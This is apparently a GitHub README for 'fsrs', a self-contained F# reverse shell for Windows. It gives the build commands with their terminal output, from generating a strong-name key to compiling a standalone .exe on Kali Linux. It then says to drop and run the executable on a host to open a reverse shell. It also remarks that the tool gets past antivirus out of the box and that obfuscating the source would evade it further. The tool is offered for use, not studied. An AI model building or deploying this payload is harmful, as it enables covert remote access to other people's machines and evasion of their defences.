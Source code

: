 # fsrs

portable f# reverse shell (self-contained executable)

**Requirements**

Ubuntu 18.04, works fine with kali 2019.4
https://www.mono-project.com/download/stable/#download-lin

```
root@kali:/opt/fsrs# apt-get install fsharp
Reading package lists... Done
Building dependency tree       
Reading state information... Done
fsharp is already the newest version (4.5-0xamarin9+ubuntu1804b1).
0 upgraded, 0 newly installed, 0 to remove and 156 not upgraded.
```

**Usage**

Edit listener IP/Domain, Port values in fsrs.fsx.

Generate strong name key, compile to standalone .exe. 

```
root@kali:/opt/fsrs# sn -k fsrs.snk
Mono StrongName - version 5.18.0.240
StrongName utility for signing assemblies
Copyright 2002, 2003 Motus Technologies. Copyright 2004-2008 Novell. BSD licensed.

A new 1024 bits strong name keypair has been generated in file 'fsrs.snk'.

root@kali:/opt/fsrs# fsharpc --target:winexe --keyfile:fsrs.snk --standalone fsrs.fsx 
Microsoft (R) F# Compiler version 10.2.3 for F# 4.5
Copyright (c) Microsoft Corporation. All Rights Reserved.

root@kali:/opt/fsrs# ls -lha
total 1.6M
drwxr-xr-x  2 root root 4.0K Nov 27 04:54 .
drwxr-xr-x 29 root root 4.0K Nov 27 02:56 ..
-rwxr-xr-x  1 root root 1.6M Nov 27 04:54 fsrs.exe
-rw-r--r--  1 root root 1.5K Nov 27 04:54 fsrs.fsx
-rw-------  1 root root  596 Nov 27 04:52 fsrs.snk
```

Drop execute fsrs.exe on host for reverse shell.


**AV**

Not bad out of the box, source code will need obfuscation for further bypass.

<img width="1307" alt="Screenshot 2019-11-27 at 04 57 39" src="https://user-images.githubusercontent.com/56988989/69695174-4a5d6500-10d3-11ea-8ec2-a13386a9b91e.png">


Enjoy~
